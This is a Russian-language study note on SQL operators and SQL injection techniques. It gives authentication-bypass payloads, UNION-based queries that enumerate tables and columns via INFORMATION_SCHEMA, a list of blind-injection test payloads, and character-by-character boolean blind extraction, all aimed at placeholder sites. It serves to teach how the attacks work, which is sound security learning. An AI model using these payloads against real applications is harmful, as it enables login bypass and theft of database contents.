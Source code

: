****Операторы:****

***1. Операторы определения данных.***

1.1 **CREATE** - создание объекта.

1.2 **ALTER** - изменение объекта.

1.3 **DROP** - удаление объекта.


***2. Операторы манипуляции с данными.***

2.1 **SELECT** - выбор данных.

2.2 **INSERT** - добавление данных.

2.3 **UPDATE** - изменение данных.

2.4 **DELETE** - удаление данных.

2.5 **UNION** - объединяет два запроса в один.


***3. Операторы доступа к данным.***

3.1 **GRANT** - разрешение на манипуляции с объектом.

3.2 **REVOKE** - отзывает разрешения.

3.3 **DENY** - запрет.


****Виды SQL-injection:****

***1. Тип переменной.**

**1.1 Числовой параметр.**

Ex: 
```
SELECT * FROM somthing WHERE id=$id (не обрамлен кавычками)
```

Если подставить ', то вылетит ошибка.
Если ошибка не вылетела:

* Инъекции нет.
    
* ' фильтруются.
    
* Выкл. вывод ошибок (blind inj)


**1.2. Строковый параметр.**

Ex: 
```
SELECT * FROM somthing WHERE id='1" (обрамлен кавычками)
```
Если добавить ', то нарушится логика запроса. 

**1.3. Авторизация.**

*login и password.*

Ex: 
```
SELECT * FROM  users WHERE login='login' and password='password'
```

Уязвимость в login:
```
SELECT * FROM users WHERE login='admin'-- and password='password'
```

*Уязвимость в password:*
```
password' OR login='admin'--
```

***1.4. Оператор LIKE.***

Для оператора LIKE символ % - любая строка. 

Авторизация. В поле password вводим %

Ex: 
```
SELECT * FROM users WHERE login LIKE 'admin' AND password LIKE '%'
```

****2. Тип инъекций.****

***2.1 UNION-based***

- У всех запросов должно быть одинаковое кол-во столбцов в запросе.
- 
- Полное совпадение типов столбцов.
- 
Ex:
запрос 1 = SELECT id, user FROM users WHERE id=1

запрос 2 = SELECT user, password FROM passwords WHERE id=1
```
SELECT user, value FROM table_1 UNION SELECT user, value FROM table_2 (добавление ALL после UNION выводит дубликаты)
```

Запрос который ничего не выведет.
```
SELECT user, date FROM table_1 UNION SELECT value FROM table_2 (несовпадение количества столбцов)
```

Запрос который ничего не выведет.
```
SELECT user, date FROM table_1 UNION SELECT user, string FROM table_2 (несовпадение типов столбцов)
```

Ex: 
http://something.com/logs.php?id=1 (адресная строка)
```
SELECT Users.user, Logs.log FROM Users, Logs WHERE Logs.sid=$id
```

Запрос на таблицы в базе:
```
http://something.com/logs.php?id=1 UNION SELECT TOP 10 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--
```
Запрос на имена колонок:
```
http://something.com/logs.php?id=1 UNION SELECT TOP 10 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="table name"--
```

По итогу получения названия всех колонок и таблиц можно получить логи всех пользователей:
```
http://something.com/logs.php?id=1 UNION SELECT Users.user, Logs.lo FROM Users, Logs WHERE Logs.sid = Users.id
```

***2.2 Blind injection***

Не отображает ответы ошибок.

***Normal blind***

Ex: 
http://test.com/something.php?id=1
```
SELECT title, descr, body FROM something WHERE id=$id
http://test.com/something.php?id=1 and 1=1 (вернет то же самое)
http://test.com/something.php?id=1 and 1=0 (никогда не выполнится)
SELECT title, descr, body FROM something WHERE id=$id AND 1=0
```

***Payloads для определения Blind-inj***
```
AND true
AND false
'AND true-- -
'AND false-- -
'AND true %23
'AND false %23
```

**Эксплуатация.**
```
SELECT title, descr, body FROM something WHERE id=$id AND ASCII(substring((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1), 1,1))>100
SELECT title, descr, body FROM something WHERE id=$id AND X>100
```

**ASCII(symbol)** - возвращение кода символа по ascii

**substring(string, start_symbol, count_symbol)** - возвращение подстроки и строки

**SELECT table_name** - получить название таблицы.


Если Х>100 вернёт true(страница появилась), то название таблицы начинается не с ascii 100, а если вернет false(страница пропала), то начинается с ascii 100. 
Методом перебора узнаем название таблицы.

------Другой способ
Использование dual и LIKE.
% - строка произвольной длины.
_ - любой символ.

Ex: 
'something.com' LIKE '%thing%' - true.
'something.com' LIKE '%.c' - false.

'test.com' LIKE '___t.c__' - true.
'test.com' LIKE '___t.c_' - false.

```
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE database() LIKE '%n%')
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE database() LIKE '_______')
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE database() = 'name_bd')
```

**Получение имен таблиц через столбцы.**
```
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema = database() AND column_name LIKE '%user%' limit 0,1) LIKE '%')
```

**Запрос состоит из 2х вложенных запросов.**

1.
```
SELECT table_name FROM information_schema.columns WHERE table_schema = database() AND column_name LIKE '%user%' limit 0,1
```   
**SELECT table_name** - выдай имя таблицы.
   
**FROM information_schema.columns** - из данных колонок.
   
**WHERE table_schema = database()** - где, БД равна текущей.
   
**AND column_name LIKE '%user%'** - и таблица содержит столбец в названии которого есть user.
   
**limit 0,1** - 1шт

Если в БД есть таблица со столбцом содержащим **user**, то этот запрос вернёт имя таблицы. Например ***some_table_name***

2.
```
SELECT 1 FROM dual WHERE some_table_name LIKE '%'
```
Проверка на строку. Если вернул строку - **true**, иначе - **false**

Узнать имя таблицы.
































